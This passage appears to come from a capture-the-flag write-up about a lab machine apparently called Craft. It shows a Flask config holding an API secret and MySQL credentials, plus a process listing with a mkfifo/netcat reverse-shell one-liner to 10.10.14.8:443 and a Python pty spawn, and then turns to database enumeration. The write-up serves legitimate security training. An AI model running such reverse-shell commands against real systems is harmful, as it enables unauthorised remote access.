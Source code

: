     # Flask-Restplus settings
    RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
    RESTPLUS_VALIDATE = True
    RESTPLUS_MASK_SWAGGER = False
    RESTPLUS_ERROR_404_HELP = False
    CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

    # database
    MYSQL_DATABASE_USER = 'craft'
    MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
    MYSQL_DATABASE_DB = 'craft'
    MYSQL_DATABASE_HOST = 'db'
    SQLALCHEMY_TRACK_MODIFICATIONS = False



There are no home dirs, and `/root` is empty. Besides stuff I started,
the process list is basically `python` running the api app:



    ~ # ps auxww
    PID   USER     TIME  COMMAND
        1 root      8:57 python ./app.py
       71 root      0:00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|n
       74 root      0:00 cat /tmp/f
       75 root      0:00 /bin/sh -i
       76 root      0:00 nc 10.10.14.8 443
     7186 root      0:00 python -c import pty;pty.spawn("sh")
     7187 root      0:00 sh
     7204 root      0:00 ps auxww
    12925 root      0:00 [sh]
    13251 root      0:01 [GQzvn]
    13256 root      0:00 [ping]
    13275 root      0:00 [GCpGS]
    13290 root      0:01 [vvQnJ]
    13295 root      0:00 [sh]
    13308 root      0:00 [ash]
    13388 root      0:00 [ibOSe]



### Database Enumeration

#### Connecting

With the db creds, I wanted to see what else was in the database. But I
lacked the tooling. `mysql` wasn't on the box. Getting tunnels to and
from the box were also difficult (surely solvable, but would have been a
pain).

So I opted to use `python` and the scripts on the box. There's a
`dbtests.py` script in the app root:

